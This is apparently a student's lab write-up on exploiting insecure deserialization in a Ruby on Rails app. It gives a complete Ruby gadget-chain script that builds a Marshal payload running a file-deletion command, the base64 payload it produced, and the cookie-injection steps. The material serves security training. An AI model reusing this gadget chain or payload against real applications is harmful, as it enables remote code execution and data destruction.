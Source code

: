 *This lab uses a serialization-based session mechanism and the Ruby on Rails framework. There are documented exploits that enable remote code execution via a gadget chain in this framework.
To solve the lab, find a documented exploit and adapt it to create a malicious serialized object containing a remote code execution payload. Then, pass this object into the website to delete the morale.txt file from Carlos's home directory.
You can log in to your own account using the following credentials: wiener:peter*

Noticed following issue from the scan:
![[Screenshot 2024-05-31 at 3.12.11 PM.png]]

Found a script from https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html (the final code) and modified to such:
```ruby 
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer
require "base64"

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts Base64.encode64(payload)
```
I made a few changes:
1. added the module `base64`
2. removed the second argument in each of the `Net::WriteAdapter.new()`
3. changed the `id` to `rm /home/carlos/morale.txt`
4. deleted the last 2 lines and added the line `puts Base63/encode64(payload)`
Ran the script and received the following output:'
```console
BAhbCGMVR2VtOjpTcGVjRmV0Y2hlcmMTR2VtOjpJbnN0YWxsZXJVOhVHZW06
OlJlcXVpcmVtZW50WwZvOhxHZW06OlBhY2thZ2U6OlRhclJlYWRlcgY6CEBp
b286FE5ldDo6QnVmZmVyZWRJTwc7B286I0dlbTo6UGFja2FnZTo6VGFyUmVh
ZGVyOjpFbnRyeQc6CkByZWFkaQA6DEBoZWFkZXJJIghhYWEGOgZFVDoSQGRl
YnVnX291dHB1dG86Fk5ldDo6V3JpdGVBZGFwdGVyBjoMQHdyaXRlcm86FEdl
bTo6UmVxdWVzdFNldAc6CkBzZXRzbzsOBjsPbQtLZXJuZWw6DUBnaXRfc2V0
SSIfcm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQGOwxU
```
Removed the `\n` and `\r` with the following command:
```console
┌──(roshan㉿roshan)-[~/Courses/bscp/insecure_deserialization]
└─$ echo "BAhbCGMVR2VtOjpTcGVjRmV0Y2hlcmMTR2VtOjpJbnN0YWxsZXJVOhVHZW06        
OlJlcXVpcmVtZW50WwZvOhxHZW06OlBhY2thZ2U6OlRhclJlYWRlcgY6CEBp
b286FE5ldDo6QnVmZmVyZWRJTwc7B286I0dlbTo6UGFja2FnZTo6VGFyUmVh
ZGVyOjpFbnRyeQc6CkByZWFkaQA6DEBoZWFkZXJJIghhYWEGOgZFVDoSQGRl
YnVnX291dHB1dG86Fk5ldDo6V3JpdGVBZGFwdGVyBjoMQHdyaXRlcm86FEdl
bTo6UmVxdWVzdFNldAc6CkBzZXRzbzsOBjsPbQtLZXJuZWw6DUBnaXRfc2V0
SSIfcm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQGOwxU" | tr -d "\n\r"
```
This was the output:
```console 
BAhbCGMVR2VtOjpTcGVjRmV0Y2hlcmMTR2VtOjpJbnN0YWxsZXJVOhVHZW06OlJlcXVpcmVtZW50WwZvOhxHZW06OlBhY2thZ2U6OlRhclJlYWRlcgY6CEBpb286FE5ldDo6QnVmZmVyZWRJTwc7B286I0dlbTo6UGFja2FnZTo6VGFyUmVhZGVyOjpFbnRyeQc6CkByZWFkaQA6DEBoZWFkZXJJIghhYWEGOgZFVDoSQGRlYnVnX291dHB1dG86Fk5ldDo6V3JpdGVBZGFwdGVyBjoMQHdyaXRlcm86FEdlbTo6UmVxdWVzdFNldAc6CkBzZXRzbzsOBjsPbQtLZXJuZWw6DUBnaXRfc2V0SSIfcm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQGOwxU                   
```
URL encoded it, replaced the cookie in the login request and issued the request to solve the lab. 
